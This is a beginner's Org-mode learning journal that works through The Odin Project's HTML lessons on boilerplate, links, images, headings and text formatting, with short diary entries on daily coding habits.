  <li>Portugal</li>
  <li>Germany</li>
  <li>Canada</li>
</ul>
#+end_src

#+begin_quote
4. An ordered list of your all time top 5 favorite video games or movies
#+end_quote

~<<games>> +≡~

#+begin_src html :noweb-ref games
<h1>My favorite games of all time</h1>
<ol>
  <li>Zelda (Ocarina)</li>
  <li>Pokémon Blue/R./Y.</li>
  <li>Metal Slug</li>
  <li>Super Mario World</li>
  <li>Harvest Moon (NES)</li>
</ol>
#+end_src

** [2025-09-27 Sat 11:40] Links and Images
*** Links
:PROPERTIES:
:header-args:html: :session *links-and-images*
:END:
#+begin_quote
1. Create a new directory named odin-links-and-images.
#+end_quote

#+begin_src bash
mkdir ./odin/assignments/foundations/odin-links-and-images
#+end_src

#+RESULTS:

#+begin_quote
2. Within that directory, create a new file named index.html.
3. Open the file in VS Code and fill in the usual HTML boilerplate.
#+end_quote

[[file:odin/assignments/foundations/odin-links-and-images/index.html][odin/assignments/foundations/odin-links-and-images/index.html]] ≡

#+begin_src html :tangle odin/assignments/foundations/odin-links-and-images/index.html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8">
    <title>My first page from Odin</title>
  </head>

  <body>
    <<body Content odin-links-and-images>>
  </body>
</html>
#+end_src

#+begin_quote
4. Finally, add the following h1 to the body:

<h1>Homepage</h1>
#+end_quote

~<<body Content odin-links-and-images>> +≡~

#+begin_src html :noweb-ref body Content odin-links-and-images
<h1>Homepage</h1>
#+end_src

[2025-09-27 Sat 11:57] Pausing for lunch.

[2025-09-27 Sat 17:57] Coming back, after busking.

The Web is made out of links.
Let's add our first one.
We need to add an *anchor* element, and give it some attributes.
We'll leave a placeholder for the attributes.

~<<body Content odin-links-and-images>> +≡~

#+begin_src html :noweb-ref body Content odin-links-and-images :noweb-seb nil
<a
  <<attributes for Odin about page href>>
  >About the Odin Project.</a>
#+end_src

The first attribute contains the /link/ itself, and is called *href*.

~<<attributes for Odin about page href>> +≡~

#+begin_src html :noweb-ref attributes for Odin about page href
href="https://www.theodinproject.com/about"
#+end_src

The link now would open on the same tab.
Let's open in a new one, using the attribute *target*.

~<<attributes for Odin about page href>> +≡~

#+begin_src html :noweb-ref attributes for Odin about page href
target="_blank"
#+end_src

Now we add some security measures.
This new attribute and value prevents some dangers when linking to another page.
Possible attacks include phishing and tabnabbing.

~<<attributes for Odin about page href>> +≡~

#+begin_src html :noweb-ref attributes for Odin about page href
rel="noopener noreferrer"
#+end_src

**** Relative links

Create a page on our own server.

*NOTE:* the =pages/= was added later in this assignment.

[[file:odin/assignments/foundations/odin-links-and-images/about.html][odin/assignments/foundations/odin-links-and-images/pages/about.html]] ≡

#+begin_src html :tangle odin/assignments/foundations/odin-links-and-images/pages/about.html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8">
    <title>Odin Links and Images</title>
  </head>

  <body>
    <h1>About Page</h1>
    <<le Charles>>
  </body>
</html>
#+end_src

Add a /relative/ link to it on the main page.

~<<body Content odin-links-and-images>> +≡~

#+begin_src html :noweb-ref body Content odin-links-and-images
<a href="pages/about.html">About</a>
#+end_src

Let's organize it: add a folder for all the other pages besides =index.html=.

#+begin_src shell :dir ~/dev/webdev-study/odin/assignments/foundations/odin-links-and-images/
mkdir pages
#+end_src

#+RESULTS:

And move =about.html= there.

#+begin_src shell :dir ~/dev/webdev-study/odin/assignments/foundations/odin-links-and-images/
mv about.html pages
#+end_src

#+RESULTS:

*** Images
:PROPERTIES:
:header-args: :dir ~/dev/webdev-study/odin/assignments/foundations/odin-links-and-images/
:END:

Assignment.

#+begin_quote
1. Create a new directory named images within the odin-links-and-images project.
#+end_quote

#+begin_src shell
mkdir images
#+end_src

#+RESULTS:

#+begin_quote
2. Next, download our practice image and move it into the images directory we just created.
3. Rename the image to dog.jpg.
#+end_quote

#+begin_src shell
wget --output-document=images/dog.jpg https://unsplash.com/photos/Mv9hjnEUHR4/download?force=true&w=640
#+end_src

#+RESULTS:

Add the image to the home page, and the About one (using relative path).
Both will have some attributes that are the same.
Let's give them a placeholder.

~<<body Content odin-links-and-images>> +≡~

#+begin_src html :noweb-ref body Content odin-links-and-images
<img src="./images/dog.jpg"
<<dog pic attributes>>
  >
#+end_src

Now add the pic to the About page, using a relative path to the parent folder.

~<<le Charles>> +≡~

#+begin_src html :noweb-ref le Charles
<img src="../images/dog.jpg"
<<dog pic attributes>>
  >
#+end_src

Add the alternative text.

~<<dog pic attributes>> +≡~

#+begin_src html :noweb-ref dog pic attributes
alt="A black dog (pug) with a gray wool blanket."
#+end_src

**** Image size attributes
Now the size attributes.

~<<dog pic attributes>> +≡~

#+begin_src html :noweb-ref dog pic attributes
width="604" height="806"
#+end_src

*** [2025-09-27 Sat 19:37] Assignment on [[https://internetingishard.netlify.app/html-and-css/links-and-images/][Interneting]]
:PROPERTIES:
:header-args:
:END:

[[file:odin/assignments/foundations/interneting-links-and-images/links.html][odin/assignments/foundations/interneting-links-and-images/links.html]] ≡

#+begin_src html :tangle odin/assignments/foundations/interneting-links-and-images/links.html
<!DOCTYPE html>
<html lang="en">
  <head>
    <title>Links</title>
    <meta charset="UTF-8">
  </head>
  <body>
    <h1>Links</h1>
    <p>This particular page is about links! There are three kinds of links:</p>

    <ul>
      <<links>>
    </ul>
  </body>
</html>
#+end_src

[[file:odin/assignments/foundations/interneting-links-and-images/images.html][odin/assignments/foundations/interneting-links-and-images/images.html]] ≡

#+begin_src html :tangle odin/assignments/foundations/interneting-links-and-images/images.html
<!DOCTYPE html>
<html lang="en">
  <head>
    <title>Images</title>
    <meta charset="UTF-8">
  </head>
  <body>
    <h1>Images</h1>
    <p>This page covers common image formats, but you may also be looking for
      <a href='links.html'>links</a> and
      <a href='misc/extras.html'>useful extras</a>.
    </p>
    <<images>>
  </body>
</html>
#+end_src

[[file:odin/assignments/foundations/interneting-links-and-images/misc/extras.html][odin/assignments/foundations/interneting-links-and-images/misc/extras.html]] ≡

#+begin_src html :tangle odin/assignments/foundations/interneting-links-and-images/misc/extras.html :mkdirp yes
<!DOCTYPE html>
<html lang="en">
  <head>
    <title>Extras</title>
    <meta charset="UTF-8">
  </head>
  <body>
    <h1>Extras</h1>
    <p>This page is about miscellaneous HTML things,
      but you may also be interested in
      <a href='../links.html'>links</a> or
      <a href='../images.html'>images</a>.
    </p>
    <h2>Character Sets</h2>
    <p>You can use UTF-8 to count in Turkish:</p>
    <ol>
      <li>bir</li>
      <li>iki</li>
      <li>üç</li>
      <li>dört</li>
      <li>beş</li>
    </ol>
    <<Reserved Characters>>
    <<Curly Quotes>>
  </body>
</html>
#+end_src

Unzip images.

#+begin_src shell :dir odin/assignments/foundations/interneting-links-and-images/
unzip images-4149f7.zip
rm images-4149f7.zip
#+end_src

#+RESULTS:
| Archive:   | images-4149f7.zip |
| inflating: | -4149f7.zip       |

Absolute links.

~<<links>> +≡~

#+begin_src html :noweb-ref links
<li>Absolute links, like to
  <a href='https://developer.mozilla.org/en-US/docs/Web/HTML'
    target='_blank'>Mozilla
    Developer Network</a>,
  which is a very good resource for web developers.
</li>
#+end_src

Relative Links.

~<<links>> +≡~

#+begin_src html :noweb-ref links
<li>Relative links, like to our <a href='misc/extras.html'>extras page</a>.
</li>
#+end_src

~<<links>> +≡~

#+begin_src html :noweb-ref links
<!-- This won't work for our local HTML files -->
<li>Root-relative links, like to the
  <a href='/'>home page</a>
  of our website, but those aren't useful to us right now.
</li>
#+end_src

Add the images.
First a JPG, good for *pictures* (large color palettes).

~<<images>> +≡~

#+begin_src html :noweb-ref images
<h2>JPGs</h2>
<p>JPG images are good for photos.</p>
<img src='images/mochi.jpg' width='75'
<<alt jpg>>
  >
#+end_src

Then a GIF, for *animations*, (short color palettes, crude transparency).

~<<images>> +≡~

#+begin_src html :noweb-ref images
<h2>GIFs</h2>
<p>GIFs are good for animations.</p>
<img src='images/mochi.gif' width='75'
<<alt gif>>
  >
#+end_src

Now a PNG, good transparency, large color palletes, but bigger than JPG.
Useful for small images that need good transparency, like icons and logos.

~<<images>> +≡~

#+begin_src html :noweb-ref images
<h2>PNGs</h2>
<p>PNGs are good for icons and logos.</p>
<img src='images/mochi.png' width='75'
<<alt png>>
  >
#+end_src

Finally the SVG, /vector/ based (as opposed to /pixel/-): scales without loss of quality.
Use them instead of PNGs whenever possible.

~<<images>> +≡~

#+begin_src html :noweb-ref images
<h2>SVGs</h2>
<p>SVGs are <em>amazing</em>. Use them wherever you can.</p>
<img src='images/mochi.svg' width='75'
<<alt svg>>
  >
#+end_src

~<<alt jpg>> +≡~

#+begin_src html :noweb-ref alt jpg
alt='A mochi ball in a bubble'
#+end_src

~<<alt gif>> +≡~

#+begin_src html :noweb-ref alt gif
alt='A dancing mochi ball'
#+end_src

~<<alt png>> +≡~

#+begin_src html :noweb-ref alt png
alt='A mochi ball'
#+end_src

~<<alt svg>> +≡~

#+begin_src html :noweb-ref alt svg
alt='A mochi ball with Bézier handles'
#+end_src

~<<Curly Quotes>> +≡~

#+begin_src html :noweb-ref Curly Quotes
<p>If you&rsquo;re into &ldquo;web typography,&rdquo; you&rsquo;ll also find
   yourself using curly quotes quite a bit.
</p>
#+end_src

**** Reserved Characters
~<<Reserved Characters>> +≡~

#+begin_src html :noweb-ref Reserved Characters
<h2>HTML Entities</h2>
<p> There are three reserved characters in HTML:
  <strong>&lt;</strong> <strong>&gt;</strong> and <strong>&amp;</strong>.
  You should always use HTML entities for these three characters.
</p>
#+end_src

** Seinfeld Checkmark
[[file:images/2025-09-27_seinfeld.jpeg]]

* [2025-09-26 Fri]
** Feel like snowballing.
Was drifting and rabbit-holling, as per usual
Checking out the [[https://www.theodinproject.com/dashboard][Odin Project]], thought it was cool they also develop /character/.
Grit, resilience, and the rollercoaster to mastery were eye-openers to me.

Asked ChatGPT for help there.
Got realistic market analysis, criticism about main goal, specific roadmap with projects, and milestones.

Started applying the Seinfeld checkmarks.
I want to code a minimum of 1 hour every day.
Almost procrastinated until I bought a cool sheet with the squares, but ended up doing it by hand.

[[file:images/2025-09-26_seinfeld.jpeg]]

I really like those sites that allow you to code online.
Did 3 min of Exercism, elisp.
But then felt guilty, because I was derailing from the reading materials from Odin.
I want to code in other languages, besides JS.
I'll make sure to include them.
I want it to be also fun and enjoyable :)

Decided to turn this into a journal for accountability.
A bit of afraid this will derail me (happened in the past), but more confident on my resilience and emotional regulation skills this time.
Let's see.

Reading a lot of the initial material from Odin.
Decided on the Foundations.
Gonna follow this one---and *not* derail!
Need to feel secure about this.
But have to be careful about rabbit holes.

Personally, I tend to try to become a "specialist" on every detail.
Many times I don't get past the first stages of the learning process.
Journaling helps me a lot here.

Just opened a new issue on Odin's page.
I want to start collaborating.
It's a really easy one, but it's a start.

Just found out I goofed-up: the /real/ issue was my eagerness...
The issue is non-existant: I misread the text...
Well, one good opportunity to learn about this current personality trait!

Fitst session of the day ended.
Could finish all the initial readings and setup stuff.

Next: HTML!

** Odin recommended a site that has some JS.
Let's see if I remember it.
It's the code to sum two numbers.
It's a bit more complicated, because involves accessing the DOM.
Let's simplify it.
Just sum the contents of two variables, and assign it to another variable.

#+begin_src js
function sum (a, b) {
    let total = a + b;
    return total;
}
#+end_src

#+begin_quote
function NAME (ARGS) { STATEMENT; ... }
#+end_quote

And it returns with =return=.

Node.js is used to run JS in the server.

HTML: the page has *content*, which is enclosed in *tags*, forming *elements*.

An HTML tag is the markup language entity used to define elements with the content that will be shown on the page.

The element has
1. Opening tag;
2. Content;
3. Closing tag.


Void elements
- Don't have a closing tag; and
- Have no content.


We're coding, baby!

[[file:html-boilerplate/index.html][html-boilerplate/index.html]] ≡

#+begin_src html :tangle html-boilerplate/index.html
<!DOCTYPE html>
<html lang="en">
  <<head Block>>

  <<body Block>>
</html>
#+end_src

The =head= contains metadata and rendering instructions.
*No page content* here.
Always the first element inside =<html>=.

~<head Block> +≡~

#+begin_src html :noweb-ref head Block
<head>
  <<charset>>
  <<title>>
</head>
#+end_src

Let's make sure all glyphs show correctly.

~<<charset>> +≡~

#+begin_src html :noweb-ref charset
<meta charset="UTF-8">
#+end_src

Now the title.

~<<title>> +≡~

#+begin_src html :noweb-ref title
<title>My first page from Odin</title>
#+end_src

~<<body Block>> +≡~

#+begin_src html :noweb-ref body Block
<body>
  <<body Contents>>
</body>
#+end_src

Now add this to Emacs =web-mode=.

#+begin_src elisp
(add-to-list 'web-mode-snippets
               '("my-odin-html-boilerplate"
                 "<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8">
    <title>My first page from Odin</title>
  </head>

  <body>
  </body>
</html>
"))
#+end_src

~<<body Contents>> +≡~

#+begin_src html :noweb-ref body Contents
<h1>Hello, World!</h1>
#+end_src

And W3 validate, baby!

I did some coding in HTML, and some debugging in Emacs.  Either Org or =noweb= were misbehaving.
Didn't know which though---I just restarted Emacs, and everything went back to normal.
Could apply the steps recommended by Odin for analyzing the problem, and it helped.

** 1h Coding, Hello World, HTML Boilerplate
:PROPERTIES:
:header-args: :session hello world
:END:
End of the day, after busking.
Kinda desperate that I didn't code today's 1h.
But there's plenty of time.
Thought of doing some elisp, but wanna focus on JS.

Let's try Exercism.
Can't really do the exercises without knowing the language, and don't think grinding on Exercism is a good use of my time.

Gonna go back to Odin, even if it is more /theory/ now.
There's hopefully some coding even now in the beginning.
If not, I'll reserve some time later and code elisp.

** Working with Text
*** Create a blog post
#+begin_quote
Create a plain blog article page which uses different headings, uses paragraphs, and has some text in the paragraphs bolded and italicized.
You can use Lorem Ipsum to generate dummy text, in place of real text as you build your sites.
#+end_quote

[[file:odin/assignments/foundations/working-with-text/index.html][odin/assignments/foundations/working-with-text/index.html]] ≡

#+begin_src html :tangle odin/assignments/foundations/working-with-text/blog-post.html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8">
    <title>Lorem ipsum</title>
  </head>

  <body>
    <h1>Phasellus neque orci, porta a, aliquet quis, semper a, massa</h1>
    <p>Aliquam erat volutpat.  Nunc eleifend <em>leo vitae magna</em>.  In id erat non orci commodo lobortis.  Proin neque massa, cursus ut, gravida ut, lobortis eget, lacus.  Sed diam.  Praesent fermentum tempor tellus.  Nullam tempus.  Mauris ac felis vel velit tristique imperdiet.  Donec at <strong>peed</strong>.  Etiam vel neque nec dui dignissim bibendum.  Vivamus id enim.  Phasellus neque orci, porta a, aliquet quis, semper a, massa.  Phasellus purus.  Pellentesque tristique imperdiet tortor.  Nam euismod <strong>tellus id erat</strong>.</p>

    <h2>Donec hendrerit tempor tellus</h2>
    <p>Pellentesque dapibus suscipit ligula.  Donec posuere augue in quam.  Etiam vel tortor sodales tellus ultricies commodo.  Suspendisse potenti.  Aenean in sem ac leo mollis blandit.  Donec neque quam, dignissim in, mollis nec, sagittis eu, wisi.  Phasellus lacus.  Etiam laoreet quam sed arcu.  Phasellus at dui in ligula mollis ultricies.  Integer placerat tristique nisl.  Praesent augue.  Fusce commodo.  Vestibulum convallis, lorem a tempus semper, dui dui euismod elit, vitae placerat urna tortor vitae lacus.  Nullam libero mauris, consequat quis, varius et, dictum id, arcu.  Mauris mollis tincidunt felis.  Aliquam feugiat tellus ut neque.  Nulla facilisis, risus a rhoncus fermentum, tellus tellus lacinia purus, et dictum nunc justo sit amet elit.</p>

    <h3>Aliquam posuere</h3>
    <p>Nullam eu ante vel est convallis dignissim.  Fusce suscipit, wisi nec facilisis facilisis, est dui fermentum leo, quis tempor ligula erat quis odio.  Nunc porta vulputate tellus.  Nunc rutrum turpis sed pede.  Sed bibendum.  Aliquam posuere.  Nunc aliquet, augue nec adipiscing interdum, lacus tellus malesuada massa, quis varius mi purus non odio.  Pellentesque condimentum, magna ut suscipit hendrerit, ipsum augue ornare nulla, non luctus diam neque sit amet urna.  Curabitur vulputate vestibulum lorem.  Fusce sagittis, libero non molestie mollis, magna orci ultrices dolor, at vulputate neque nulla lacinia eros.  Sed id ligula quis est convallis tempor.  Curabitur lacinia pulvinar nibh.  Nam a sapien.</p>

    <h3>Fusce suscipit, wisi nec facilisis facilisis, est dui fermentum leo, quis tempor ligula erat quis odio</h3>
    <p>Pellentesque dapibus suscipit ligula.  Donec posuere augue in quam.  Etiam vel tortor sodales tellus ultricies commodo.  Suspendisse potenti.  Aenean in sem ac leo mollis blandit.  Donec neque quam, dignissim in, mollis nec, sagittis eu, wisi.  Phasellus lacus.  Etiam laoreet quam sed arcu.  Phasellus at dui in ligula mollis ultricies.  Integer placerat tristique nisl.  Praesent augue.  Fusce commodo.  Vestibulum convallis, lorem a tempus semper, dui dui euismod elit, vitae placerat urna tortor vitae lacus.  Nullam libero mauris, consequat quis, varius et, dictum id, arcu.  Mauris mollis tincidunt felis.  Aliquam feugiat tellus ut neque.  Nulla facilisis, risus a rhoncus fermentum, tellus tellus lacinia purus, et dictum nunc justo sit amet elit.</p>

    <h2>Mauris mollis tincidunt felis</h2>
    <p>Nullam eu ante vel est convallis dignissim.  Fusce suscipit, wisi nec facilisis facilisis, est dui fermentum leo, quis tempor ligula erat quis odio.  Nunc porta vulputate tellus.  Nunc rutrum turpis sed pede.  Sed bibendum.  Aliquam posuere.  Nunc aliquet, augue nec adipiscing interdum, lacus tellus malesuada massa, quis varius mi purus non odio.  Pellentesque condimentum, magna ut suscipit hendrerit, ipsum augue ornare nulla, non luctus diam neque sit amet urna.  Curabitur vulputate vestibulum lorem.  Fusce sagittis, libero non molestie mollis, magna orci ultrices dolor, at vulputate neque nulla lacinia eros.  Sed id ligula quis est convallis tempor.  Curabitur lacinia pulvinar nibh.  Nam a sapien.</p>

    <p>Lorem ipsum dolor sit amet, consectetuer adipiscing elit.  Donec hendrerit tempor tellus.  Donec pretium posuere tellus.  Proin quam nisl, tincidunt et, mattis eget, convallis nec, purus.  Cum sociis natoque penatibus et magnis dis parturient montes, nascetur ridiculus mus.  Nulla posuere.  Donec vitae dolor.  Nullam tristique diam non turpis.  Cras placerat accumsan nulla.  Nullam rutrum.  Nam vestibulum accumsan nisl.</p>

    <h3>Lorem ipsum dolor sit amet, consectetuer adipiscing eli</h3>
    <p>Pellentesque dapibus suscipit ligula.  Donec posuere augue in quam.  Etiam vel tortor sodales tellus ultricies commodo.  Suspendisse potenti.  Aenean in sem ac leo mollis blandit.  Donec neque quam, dignissim in, mollis nec, sagittis eu, wisi.  Phasellus lacus.  Etiam laoreet quam sed arcu.  Phasellus at dui in ligula mollis ultricies.  Integer placerat tristique nisl.  Praesent augue.  Fusce commodo.  Vestibulum convallis, lorem a tempus semper, dui dui euismod elit, vitae placerat urna tortor vitae lacus.  Nullam libero mauris, consequat quis, varius et, dictum id, arcu.  Mauris mollis tincidunt felis.  Aliquam feugiat tellus ut neque.  Nulla facilisis, risus a rhoncus fermentum, tellus tellus lacinia purus, et dictum nunc justo sit amet elit.</p>

    <p>Lorem ipsum dolor sit amet, consectetuer adipiscing elit.  Donec hendrerit tempor tellus.  Donec pretium posuere tellus.  Proin quam nisl, tincidunt et, mattis eget, convallis nec, purus.  Cum sociis natoque penatibus et magnis dis parturient montes, nascetur ridiculus mus.  Nulla posuere.  Donec vitae dolor.  Nullam tristique diam non turpis.  Cras placerat accumsan nulla.  Nullam rutrum.  Nam vestibulum accumsan nisl.</p>

    <p>Pellentesque dapibus suscipit ligula.  Donec posuere augue in quam.  Etiam vel tortor sodales tellus ultricies commodo.  Suspendisse potenti.  Aenean in sem ac leo mollis blandit.  Donec neque quam, dignissim in, mollis nec, sagittis eu, wisi.  Phasellus lacus.  Etiam laoreet quam sed arcu.  Phasellus at dui in ligula mollis ultricies.  Integer placerat tristique nisl.  Praesent augue.  Fusce commodo.  Vestibulum convallis, lorem a tempus semper, dui dui euismod elit, vitae placerat urna tortor vitae lacus.  Nullam libero mauris, consequat quis, varius et, dictum id, arcu.  Mauris mollis tincidunt felis.  Aliquam feugiat tellus ut neque.  Nulla facilisis, risus a rhoncus fermentum, tellus tellus lacinia purus, et dictum nunc justo sit amet elit.</p>
  </body>
</html>

#+end_src

** First Seinfeld checkmark!
And this coding session warranted me my first one Seinfeld checkmark!

[[file:images/2025-09-26_seinfeld_checked.jpeg]]

* [2025-09-24 Wed]
So, we're learning Web Dev.
Well, at least /I/ am!

Let's make it easier and more fun with Literate Programming in Org Mode.

Starting from the fundamentals.
Web pages are all about navigating through content.
To make things easier, we have:
- HTML, for /structure/;
- CSS, for /style/;
- Javascript, for /logic/.


A minimal html page [[https://html.spec.whatwg.org/multipage/syntax.html?utm_source=chatgpt.com#writing][must have]]:

#+begin_src html
<!DOCTYPE html>
<html>
</html>
#+end_src

Here:
- ~<!DOCTYPE html>~ is the /Document Type Declaration/; it tells the browser the specifications that the page follows.
- ~<html>~ and ~</html>~ enclose the page itself.

The fundamental element of a web page is... well, an =element=.
By definition, an =element= is composed by (example inside the parentheses):
- opening tag (~<html>~);
- everything in between (called /content/);
- closing tag (~</html>~).

The page is made of a /sequence of elements/.

Some elements may be /empty/: they don't have a closing tag.
Example: ~<!DOCTYPE html>~.

A /cool/ first web page would be:

[[file:hello-world.html][hello-world.html]] ≡

#+begin_src html :tangle hello-world.html
<!DOCTYPE html>
<html>
  <p>Hello, World!</p>
</html>
#+end_src

*NOTE:* Here the /contents/ of the =element= ~<p>~ are "Hello, world!".

The ~<html>~ element contains all the elements of the whole page.
Only two tags should be immediately inside it: ~<head>~ and ~<body>~.
~<head>~ contains /metadata/; more about this below.
~<body>~ contains all the /visible/ elements of the page.

Then, each element of the page is either inside ~<head>~ or ~<body>~.
This is illustrated below.

#+begin_src
<html>
|
+- <head>
|
+- <body>
#+end_src

To help make things more clear, we'll call
- /Document/: the elements ~<!DOCTYPE>~ and ~<head>~ together, and
- /Page/: the ~<body>~ element.


For instance: ~hello-world.html~ contains the whole /document/.
When we open it on a browser, we see the (obviously /visible/) /page/, which is inside ~<body>~.

Let's then fix our first page!
It had a ~<p>~ element immediately inside ~<html>~, which is against the specs.
It must be inside ~<body>~.

We also have to add a ~<head>~ inside ~<html>~.
We could leave it empty, but that's not cool.
We'll put a ~<title>~ inside it.
~<title>~ is the /page/ title, that appears as the "name" of the browser window or the page's tab in the browser.

[[file:hello-world-fixed.html][hello-world-fixed.html]] ≡

#+begin_src html :tangle hello-world-fixed.html
<!DOCTYPE html>
<html>
  <head>
    <title>My first fixed page</title>
  </head>
  <body>
    <p>Hello, World!</p>
  </body>
</html>
#+end_src

If you open both ~hello-world.html~ and ~hello-world-fixed.html~, you'll see that they look the same.
This shows how /forgiving/ HTML is.
It really tries to help us get there.
Good on you, HTML!

To help organizing paragraphs, we have /headings/.
They give us /six/ of them: ~<h1>~ to ~<h6>~.

[[file:headings.html][headings.html]] ≡

#+begin_src html :tangle headings.html
<!DOCTYPE html>
<html>
  <head>
    <title>Guess who my favorite was?</title>
  </head>
  <body>
    <h1>S.H.I.E.L.D. Team</h1>
    <h2>Nick Fury</h2>
    <p>Leading S.H.I.E.L.D. with an iron will and one eye on the bigger picture. He always anticipates threats before they happen. His presence commands respect across the superhero community. Nothing slips past his watchful eye.</p>

    <h2>Phil Coulson</h2>
    <p>The calm in the storm, proving loyalty is a superpower. Coulson bridges heroes and humans with tact and understanding. He carries a quiet strength that inspires trust. Even in chaos, his steady hand guides the team.</p>

    <h2>Maria Hill</h2>
    <p>Strategic, precise, and always ready for action. Hill can handle the toughest missions with clarity and focus. Her decisiveness keeps S.H.I.E.L.D. running smoothly. She never hesitates when lives are on the line.</p>

    <h2>Melinda May</h2>
    <p>The Cavalry—silent, deadly, and unstoppable. May’s combat skills are unmatched in the field. Beneath her stoic exterior lies fierce loyalty to her team. Every mission she undertakes is executed with perfection.</p>

    <h2>Leopold Fitz</h2>
    <p>Brains behind the tech, making the impossible possible. Fitz’s inventions often turn the tide in dire situations. His curiosity drives constant innovation. Even under pressure, his intellect shines brilliantly.</p>

    <h2>Skye</h2>
    <h3>Hacker</h3>
    <p>Skye starts out as a brilliant hacker, using her skills to uncover secrets and fight for justice from the shadows. Her curiosity and determination make her a force to be reckoned with. Even before joining S.H.I.E.L.D., she proves she can challenge the system.</p>

    <h3>Agent</h3>
    <p>Joining S.H.I.E.L.D., Skye becomes a trained field agent, learning to balance her intellect with physical skill. She adapts quickly to missions, proving her value to the team. Her loyalty and resourcefulness grow stronger with every challenge.</p>

    <h3>Daughter</h3>
    <p>Skye discovers her true identity as Daisy Johnson, the daughter of a powerful Inhuman. This revelation reshapes her understanding of herself and her powers. She struggles but ultimately embraces her heritage, gaining confidence and purpose.</p>

    <h3>Leader</h3>
    <p>Over time, Skye evolves into a capable leader, guiding missions and protecting her team. Her experience as both an outsider and a hero gives her unique insight. She inspires others through courage, empathy, and decisiveness.</p>

    <h3>Quake</h3>
    <p>Fully embracing her abilities, Skye becomes Quake, wielding seismic powers to combat threats. She balances heroism with personal growth, using her strength to defend the world. Quake is the culmination of her journey, symbolizing resilience, power, and identity.</p>
  </body>
</html>
#+end_src

Interesting to note that the paragraphs inside a heading are *not* nested inside it.

Now comes the ~<br>~ element.
It forces a line break in the text.
It is an /empty/ element, meaning it has no content.
This implies it does *not* need nor have an end tag.

In the example below, the poem has two versions: in the first one, the line breaks are only in the source code, and the second version /forces/ them with ~<br>~.
Only the second one gets the expected result (well, at least on a big screen).

[[file:br.html][br.html]] ≡

#+begin_src html :tangle br.html
<!DOCTYPE html>
<html>
  <head>
    <title>br, but not for Brazil</title>
  </head>
  <body>
    <p>He-Man stands tall, sword held high,
      Shadows flee where his heroes fly.
      In Eternia’s heart, he lights the night,
      Strength and courage his endless might.</p>

    <p>He-Man stands tall, sword held high,<br>
      Shadows flee where his heroes fly.<br>
      In Eternia’s heart, he lights the night,<br>
      Strength and courage his endless might.</p>
  </body>
</html>
#+end_src

Now is a good time to note that the tag names are case-insensitive.
Very sensible of forgiving HTML.
But (there's always one (well, not /always/)) *lowercase is recommended* in general and *demanded* for stricter document types like XHTML.
Let's keep it down low then.
